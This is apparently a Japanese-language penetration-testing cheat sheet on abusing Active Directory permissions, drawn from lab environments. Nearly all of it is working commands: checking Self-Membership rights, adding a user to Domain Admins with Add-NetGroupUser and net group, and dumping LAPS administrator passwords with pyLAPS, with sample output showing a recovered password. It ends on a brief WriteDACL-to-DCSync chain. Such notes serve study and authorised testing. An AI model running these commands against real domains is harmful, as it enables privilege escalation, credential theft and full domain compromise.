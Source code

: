 ```

### Self (Self-Membership)が付与されている場合

```
以下のコマンドを実行して、ObjectType属性がSelf-Membershipであることを確認する
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

#### 自分自身をグループに追加する(Self (Self-Membership)が付与されている場合)

```
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

### WriteProperty (Self-Membership)が付与されている場合

```
以下のコマンドを実行して、ObjectType属性がSelf-Membershipで、ActiveDirectoryRights属性がWritePropertyであることを確認する
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

#### 自分自身をグループに追加する(WriteProperty (Self-Membership)が付与されている場合)

```
net group "domain admins" spotless /add /domain
```


### ReadLAPSPasswordが付与されている場合のパスワード取得

```
└─$ python3 pyLAPS.py --action get -d "hutch.offsec" -u "fmcsorley" -p "CrabSharkJellyfish192" --dc-ip 192.168.192.122
                 __    ___    ____  _____
    ____  __  __/ /   /   |  / __ \/ ___/
   / __ \/ / / / /   / /| | / /_/ /\__ \   
  / /_/ / /_/ / /___/ ___ |/ ____/___/ /   
 / .___/\__, /_____/_/  |_/_/    /____/    v1.2
/_/    /____/           @podalirius_           
    
[+] Extracting LAPS passwords of all computers ... 
  | HUTCHDC$             : $s5+7&gb+v9TFE
[+] All done!

```


### WriteDACL権限からDCSyncを実行する

```
ownしたユーザーがaccount operatoesグループに所属していて、
account operatorsがexchange windows permissionsグループに対してgeneric allがある
そしてexchange windows permissionsグループはhtb.localに対してwriteDACLができる
→writeDACLはDCSyncすることができる
